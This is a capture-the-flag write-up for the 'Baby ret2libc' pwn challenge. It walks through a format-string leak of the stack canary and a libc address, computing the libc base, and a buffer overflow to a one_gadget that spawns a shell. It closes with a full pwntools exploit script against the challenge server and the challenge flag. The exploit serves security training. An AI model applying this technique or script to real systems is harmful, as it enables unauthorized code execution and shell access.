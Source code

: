 # Baby ret2libc
![](https://img.shields.io/badge/category-pwn-blue)
![](https://img.shields.io/badge/points-125-orange)

## Description
The final challenge in the Baby series. Can you get the flag?

[babyret2libc.zip](https://ctf.mcpt.ca/media/problem/kXH71NXeePum0Ngp2OvcyToBxakHZ4Z9lNJcYwI-3Lk/babyret2libc_P2EvcNi.zip)

## Solution
This question is basically identical to [Baby Cookie](https://github.com/jdabtieu/LyonCTF-white_flag/blob/main/babycookie.md) except that instead of returning to the print_flag function, we need to return to libc instead. To determine the stack offsets used in this problem, refer to that writeup.

The stack cookie can be leaked the same way, and instead of leaking the address of main, we want to leak any address inside libc. Checking the stack, we see that two entries below the cookie, is a pointer to __libc_start_main+243. Score!
```
0088| 0x7ffdec2dcf88 --> 0xf9838f81ac4f2700 
0096| 0x7ffdec2dcf90 --> 0x0 
0104| 0x7ffdec2dcf98 --> 0x7f7a58ef40b3 (<__libc_start_main+243>:       mov    edi,eax)
```

Now that we know this, we can use <https://libc.blukat.me> to help us find the libc offset.

Testing `%19$p` against the server results in an address that ends in `f0b3` (your first digit might be different). While PIE does randomize the location of code, all segments must begin at an address that ends in `000`, including libc itself. Thus, if we calculate `0xf0b3 - 243`, we get `0xefc0`, meaning that [__libc_start_main exists at offset `fc0`](https://libc.blukat.me/?q=__libc_start_main%3Afc0&l=libc6_2.31-0ubuntu9.2_amd64).

This corresponds to `libc6_2.31-0ubuntu9.2_amd64`, meaning that the server runs this version of libc. We should make sure that our program also uses same version. If not, we'll have to patch it to use the same version.

```
$ ldd babyret2libc 
        linux-vdso.so.1 (0x00007ffe6bd8c000)
        libc.so.6 => /lib/x86_64-linux-gnu/libc.so.6 (0x00007fdc22fbb000)
        /lib64/ld-linux-x86-64.so.2 (0x00007fdc231bf000)
$ /lib/x86_64-linux-gnu/libc.so.6
GNU C Library (Ubuntu GLIBC 2.31-0ubuntu9.2) stable release version 2.31.
```

Luckily for me, I run the same version of libc, so no modifications need to be made.

The website also tells us that __libc_start_main is 0x026fc0 bytes past the start of libc, meaning that the libc base address will be our leaked address - 243 - 0x026fc0.

Once we know that, we can use the buffer overflow to jump to a gadget that gives us a shell. Using one_gadget, I was able to find a gadget that works as long as the r15 and rdx registers are null (0), which is true for this program.
```
# 0xe6c81 execve("/bin/sh", r15, rdx)
[----------------------------------registers-----------------------------------]
...
RDX: 0x0 
...
R15: 0x0
EFLAGS: 0x246 (carry PARITY adjust ZERO sign trap INTERRUPT direction overflow)
[-------------------------------------code-------------------------------------]
   0x5609ef104360 <main+343>:   je     0x5609ef104367 <main+350>
   0x5609ef104362 <main+345>:   call   0x5609ef1040c0 <__stack_chk_fail@plt>
   0x5609ef104367 <main+350>:   leave  
=> 0x5609ef104368 <main+351>:   ret    
```

The final exploit will consist of these steps:
1. Leak canary and __libc_start_main+243
2. Calculate libc base
3. Stack overflow to libc base + 0xe6c81, making sure to keep the stack canary intact
4. Win!

```py
# %19$p - __libc_start_main+243
# %17$p - canary

# 0xe6c81 execve("/bin/sh", r15, rdx)

from pwn import *

#p = process("./babyret2libc")
p = remote("17fae81.0x16.ink", 32760)

pay = b'\n'*4 + b'%19$p %17$p'

p.sendline(pay)
p.recvuntil(b'name?\n')
p.recvuntil(b'Hi ')

addrs = p.recvuntil(b'\n')[:-1].split(b' ')
libc_start_main_243 = int(addrs[0], 16)
canary = int(addrs[1], 16)

log.info("Canary: " + hex(canary))
log.info("__libc_start_main+243: " + hex(libc_start_main_243))

libc_base = libc_start_main_243 - 243 - 0x026fc0
assert(libc_base & 0xfff == 0)          # gotta make sure libc base ends in 0x000, otherwise we made a mistake
log.info("libc base: " + hex(libc_base))
gadget = libc_base + 0xe6c81
log.info("gadget: " + hex(gadget))

pay = b'A'*8*9 + p64(canary) + p64(0) + p64(gadget) # 9 stack entries of garbage + canary + garbage + give us shell!
p.sendline(pay)
p.interactive()
```

For some reason, this exploit only works on linux, and not Windows. Not sure why.

Flag: `CTF{Baby_challenges_completed!Lets_pwn_everything!}`

